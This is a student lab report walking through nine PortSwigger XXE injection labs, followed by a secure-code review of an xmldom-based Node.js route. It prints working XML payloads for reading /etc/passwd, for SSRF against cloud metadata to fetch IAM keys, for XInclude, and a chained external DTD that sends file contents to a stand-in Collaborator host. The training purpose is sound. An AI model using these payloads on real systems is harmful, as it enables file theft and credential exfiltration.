# Lab 1-12 — XXE Injection
### Companion Lab Report: PortSwigger Web Security Academy

| | |
|---|---|
| **Author** | Iliya Dehghani |
| **Topic** | XML External Entity (XXE) Injection |
| **Tooling** | Burp Suite Professional (Repeater, Collaborator, exploit server) |
| **Report Type** | Vulnerability walkthrough / technical lab report |

---

## 1. Objective

This report covers nine PortSwigger Web Security Academy XXE labs (Apprentice through Expert) — direct file disclosure, XXE-driven SSRF against cloud metadata, three variants of blind XXE via out-of-band interaction (basic, parameter entities, malicious external DTD), blind XXE via error messages, XInclude-based file retrieval, XXE via SVG image upload, and local DTD repurposing — plus a Part B secure-code review disabling DTD processing in an XML parser.

## 2. Background

**XML External Entity (XXE) Injection** is a vulnerability allowing an attacker to interfere with an application's XML processing. It arises when an application parses XML using a standard library configured to support Document Type Definitions (DTDs) and external entities — features that are frequently unnecessary for the application's actual functionality but remain enabled by default. When an attacker can influence XML input, custom entities can be defined referencing local files or internal network resources, leading to file disclosure or SSRF.

**Types of XXE attacks:**
- **File disclosure** — an external entity references a local file, whose contents are included in the response
- **SSRF** — an external entity points to an internal URL, tricking the server into making requests to internal resources
- **Blind XXE with out-of-band exfiltration** — no direct response reflection, but the server can be forced to send data to an attacker-controlled external system (DNS/HTTP)
- **Blind XXE via error messages** — triggering parser errors that embed sensitive data in the error output

**Testing methodology:** automated scanning (Burp Scanner) for common XXE patterns; manual file-retrieval testing (referencing a known file like `/etc/passwd` and checking for its content in the response); blind detection via Burp Collaborator (defining an entity pointing to an attacker-controlled URL and monitoring for out-of-band interactions); and XInclude payloads when the attacker only controls a fragment of the server-side XML document rather than the full structure.

**Prevention:** disable resolution of external entities and DTDs entirely at the parser configuration level; disable XInclude support, since it provides an equivalent file-inclusion primitive independent of DTD processing.

## 3. Tools Used

| Tool | Purpose |
|---|---|
| Burp Suite Repeater | Intercepting and modifying XML requests with injected DOCTYPE/entity declarations |
| Burp Collaborator | Detecting and confirming out-of-band interactions for blind XXE |
| PortSwigger exploit server | Hosting malicious external DTD files for retrieval by the target application |

## 4. Methodology and Walkthrough — Part A: Nine Challenges

### Lab 1 — Exploiting XXE Using External Entities to Retrieve Files (Apprentice)

The intercepted "Check stock" XML request was modified with a DOCTYPE declaring an external entity referencing `/etc/passwd`, and the `productId` value was replaced with a reference to that entity:

```xml
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```


*Figure 1 — External entity `xxe` defined to reference `/etc/passwd`, substituted into the `productId` field.*

The server's response included the full contents of `/etc/passwd`, confirming direct file disclosure via XXE.


*Figure 2 — `/etc/passwd` contents returned directly in the application's response.*

### Lab 2 — Exploiting XXE to Perform SSRF Attacks (Apprentice)

An external entity was defined pointing to the AWS instance metadata endpoint (`http://169.254.169.254/`), with `productId` again replaced by the entity reference, triggering an SSRF request from the server itself. The path was iteratively refined toward `/latest/meta-data/iam/security-credentials/admin`.


*Figure 3 — External entity pointing to `169.254.169.254`, triggering a server-side request to internal cloud metadata.*

The response returned a JSON object containing `SecretAccessKey`, confirming successful credential exfiltration via SSRF.


*Figure 4 — `SecretAccessKey` returned in the response after navigating to the IAM security-credentials metadata path.*

### Lab 3 — Blind XXE with Out-of-Band Interaction (Practitioner)

A unique Burp Collaborator payload was generated and embedded in a malicious DTD, hosted on the PortSwigger exploit server. The intercepted XML request's DOCTYPE was modified to reference this externally hosted DTD, triggering an outbound request from the target server upon parsing.


*Figure 5 — DOCTYPE referencing an externally hosted DTD containing the Collaborator payload.*

Monitoring the Collaborator client confirmed the exfiltration interaction, and the response contained the lab's completion flag.


*Figure 6 — Burp Collaborator log confirming the server made an outbound request, completing the lab.*

### Lab 4 — Blind XXE with Out-of-Band Interaction via XML Parameter Entities (Practitioner)

Since general (non-parameter) entities were blocked in this variant, a **parameter entity** (using the `%` prefix syntax) was used instead, with a `SYSTEM` identifier pointing to a unique Collaborator payload, then referenced within the DTD itself.


*Figure 7 — `%`-prefixed parameter entity defined with a `SYSTEM` identifier pointing to Collaborator, triggering an external interaction.*

The Collaborator tab confirmed the out-of-band request, verifying the vulnerability and completing the lab.


*Figure 8 — Collaborator interaction confirming successful exploitation via a parameter entity.*

### Lab 5 — Exploiting Blind XXE to Exfiltrate Data Using a Malicious External DTD (Practitioner)

A malicious DTD was crafted with two chained entity declarations: one reading a target file, and a second dynamically constructed entity sending that file's content to a Collaborator URL as a query parameter:

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval; %exfil;
```


*Figure 9 — Malicious external DTD with chained entities: one reading `/etc/hostname`, the second exfiltrating it as a URL parameter.*

The DTD was uploaded to the exploit server, and the intercepted request's DOCTYPE was modified to reference it:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "DTD-URL"> %xxe;]>
```


*Figure 10 — DOCTYPE referencing the hosted DTD, triggering the chained file-read-and-exfiltrate sequence on parse.*

Polling the Collaborator tab confirmed the external request containing the exfiltrated file contents, completing the lab.


*Figure 11 — Collaborator interaction log containing the exfiltrated file contents as a query parameter, confirming the lab flag.*

### Lab 6 — Exploiting Blind XXE to Retrieve Data via Error Messages (Practitioner)

A DTD was constructed defining `%file` (reading `/etc/passwd`) and `%eval` (dynamically declaring `%exfil` to reference a deliberately **invalid** file path incorporating `%file;`), engineered specifically to trigger a parser error that would embed the file's contents in the resulting error message.


*Figure 12 — Chained entities designed to force a parser error embedding `/etc/passwd` contents in the error text.*

The intercepted "Check stock" request's DOCTYPE was set to reference this DTD; the resulting error message directly contained the full contents of `/etc/passwd`.


*Figure 13 — Parser error message embedding the contents of `/etc/passwd`, confirming blind exploitation via error-based exfiltration.*

### Lab 7 — Exploiting XInclude to Retrieve Files (Practitioner)

Where the attacker controls only a fragment of the server-side XML document (rather than being able to define a DOCTYPE), an **XInclude** payload can be substituted directly for the vulnerable parameter:

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include parse="text" href="file:///etc/passwd"/>
</foo>
```

This was injected into the `productId` parameter of the "Check stock" request, instructing the parser to inline the contents of `/etc/passwd` as plain text.


*Figure 14 — `xi:include` payload injected into `productId`, retrieving `/etc/passwd` contents without needing DOCTYPE control.*

### Lab 8 — Exploiting XXE via Image File Upload (Practitioner)

**SVG** files are XML-based, making them a viable XXE vector via file upload rather than a direct API parameter. A local SVG file was crafted with a DOCTYPE defining an external entity referencing `/etc/hostname`, referenced within a `<text>` element, then uploaded as an avatar image on a comment.


*Figure 15 — SVG file containing a DOCTYPE-defined external entity referencing `/etc/hostname`, uploaded via the avatar upload feature.*

When the server rendered the SVG, the entity was resolved and its content (the hostname) was rendered directly within the displayed avatar image.


*Figure 16 — `/etc/hostname` contents rendered inside the avatar image after server-side SVG processing resolved the external entity.*

### Lab 9 — Exploiting XXE to Retrieve Data by Repurposing a Local DTD (Expert)

Where external DTD resolution itself is blocked, a **local DTD** already present on the target system (e.g., `/usr/share/yelp/dtd/docbookx.dtd`) can be loaded and an existing parameter entity within it redefined to instead read a target file (`/etc/passwd`), then forced to reference a non-existent path to trigger an error message revealing the redefined entity's content.


*Figure 17 — Existing local DTD's parameter entity redefined to read `/etc/passwd`, disclosed via a forced parser error — bypassing external DTD restrictions entirely.*

## 5. Methodology and Walkthrough — Part B: Secure Code Review

**Vulnerability:** the application's XML parser (`DOMParser` from the `xmldom` package) was configured without restriction, processing DTDs and external entities by default. Any XML input containing a DTD declaration with an external entity (e.g., `<!ENTITY xxe SYSTEM "file:///etc/passwd">`) would be resolved on parse, exactly as demonstrated across the labs above.

**Remediated route:**
```javascript
app.post('/greet', (req, res) => {
  const xmlData = req.body;

  // Reject XML containing DOCTYPE declarations to prevent external entity attacks
  if (xmlData.includes('<!DOCTYPE')) {
    return res.status(400).send('XML DTDs are not allowed');
  }

  try {
    const doc = new DOMParser().parseFromString(xmlData, 'text/xml');
    const user = doc.getElementsByTagName('user')[0]?.textContent || 'Guest';
    res.send(`<h1>Hello, ${user}</h1>`);
  } catch (err) {
    res.status(400).send('Invalid XML');
  }
});
```

**Fix explanation:** any XML input containing a `<!DOCTYPE` declaration is rejected outright before parsing occurs, preventing DTD processing (and therefore both general and parameter entity resolution) entirely — closing the file disclosure, SSRF, and blind exfiltration vectors demonstrated in Labs 1 through 6 and 9 at the root. (Note: for defense in depth, a production fix would ideally also configure the underlying parser to disable DTD/external entity resolution natively rather than relying solely on a string-match filter, since XInclude, as in Lab 7, does not require a DOCTYPE declaration at all and would not be caught by this specific check.)

## 6. Findings / Observations

| # | Finding | Severity | Exploitation Path |
|---|---|---|---|
| 1 | Direct local file disclosure via external entity | Critical | DOCTYPE + external entity referencing a local file |
| 2 | SSRF against internal/cloud metadata services via external entity | Critical | DOCTYPE + external entity referencing an internal URL |
| 3 | Blind XXE exploitable via out-of-band DNS/HTTP interaction (general and parameter entities) | Critical | Collaborator-hosted payload referenced via DOCTYPE |
| 4 | Blind XXE data exfiltration via a malicious external DTD | Critical | Chained entity declarations exfiltrating file content as a URL parameter |
| 5 | Blind XXE data disclosure via forced parser error messages | High | Entity chain engineered to trigger an error embedding file content |
| 6 | File disclosure via XInclude without requiring DOCTYPE control | Critical | `xi:include` injected into a single XML parameter |
| 7 | XXE reachable via file upload (SVG) rather than direct API input | Critical | Malicious SVG with embedded external entity, uploaded as an image |
| 8 | External DTD restrictions bypassable via local DTD repurposing | Critical | Existing local DTD's parameter entity redefined and exploited via error message |

## 7. Conclusion

This set of labs demonstrates that XXE is not a single vulnerability but a **family of exploitation techniques against the same root misconfiguration** — a parser that resolves DTDs and external entities by default. Direct file disclosure and SSRF represent the most immediately damaging outcomes, but the blind variants (out-of-band interaction, malicious external DTD, and error-based exfiltration) show that even a fully non-reflective, error-suppressed application remains fully exploitable. Lab 7 (XInclude) and Lab 9 (local DTD repurposing) are particularly important from a defensive standpoint: they demonstrate that blocking DOCTYPE declarations alone — the fix applied in Part B — is **insufficient** on its own, since XInclude requires no DOCTYPE at all, and local DTD repurposing works even when external DTD resolution is blocked. Comprehensive remediation requires disabling DTD processing, external entity resolution, and XInclude support directly at the parser configuration level, rather than filtering for specific attacker-visible syntax patterns.

## 8. References

[1] PortSwigger, "XML external entity (XXE) injection." [Online]. Available: https://portswigger.net/web-security/xxe

[2] PortSwigger, "All labs — XML external entity (XXE) injection." [Online]. Available: https://portswigger.net/web-security/all-labs#xml-external-entity-xxe-injection
